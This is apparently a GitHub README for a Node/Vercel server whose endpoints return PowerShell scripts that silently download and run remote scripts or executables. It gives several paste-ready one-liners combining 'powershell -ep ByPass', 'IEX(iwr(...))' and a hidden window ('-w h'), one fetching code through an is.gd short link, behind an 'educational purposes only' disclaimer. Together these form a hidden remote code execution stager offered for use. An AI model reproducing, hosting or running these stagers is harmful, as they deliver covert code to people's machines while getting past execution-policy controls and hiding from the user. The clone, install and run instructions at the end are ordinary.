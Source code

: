 This is a server which runs utils for various project

> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

# Endpoints

## [/pshid](https://vercelutilsserver.gymthun.com/exehid)

returns a powershell script, downloads and executes a powershell script without a window


example: [`/pshid?url=is.gd/tuioh`](https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh'))"
```

## [/exehid](https://vercelutilsserver.gymthun.com/exe2ps1)

downloads and runs an executable via pshid


example: [`/exehid?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```

## [/exe2ps1](https://vercelutilsserver.gymthun.com/exe2ps1)

<details>
<summary>Details</summary>

returns a powershell script, which downloads and runs an executable from `param:url` with all `param:arg` passed


example: [`/exe2ps1?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```
</details>

# Building
assumes having NodeJS and git-cli installed

### clone this repo
```shell
git clone https://github.com/kaliiiiiiiiii/vercel_utils_server
cd vercel_utils_server
```

### install packages
```shell
npm install
```

### run development server
```shell
npm run dev
```